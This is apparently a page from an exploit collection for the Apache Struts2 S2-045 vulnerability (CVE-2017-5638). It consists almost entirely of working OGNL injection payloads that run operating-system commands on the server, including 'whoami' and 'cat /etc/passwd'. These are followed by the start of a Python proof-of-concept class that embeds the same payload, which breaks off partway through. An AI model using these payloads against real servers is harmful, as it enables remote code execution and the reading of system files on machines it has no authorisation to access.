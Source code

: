 ```java
%{(#fuck='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```

#### 读取文件

```java
%{(#fuck='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='cat /etc/passwd').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```

### POC

```python
#!/usr/bin/env python3

import random
import string
import requests

class S2_045_BaseVerify:
    def __init__(self, url):
        self.info = {
            'name': 'S2-045漏洞,又名CVE-2017-5638漏洞',
            'description': 'Struts2 Remote Code Execution Vulnerability, Apache Struts 2.3.32之前的2.3.x版本, 2.5.10.1之前的2.5.x版本',
            'date': '2017-03-02',
            'type': 'RCE'
        }
        self.url = url
        if not self.url.startswith("http") and not self.url.startswith("https"):
            self.url = "http://" + self.url
        self.capta = self.get_capta()
        self.headers = dict()
        self.headers['User-Agent'] = "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36"
        self.payload = r'''%{(#fuck='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='cmd_data').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}'''
    
    def get_capta(self):
        
        """
        获取一个随机字符串
```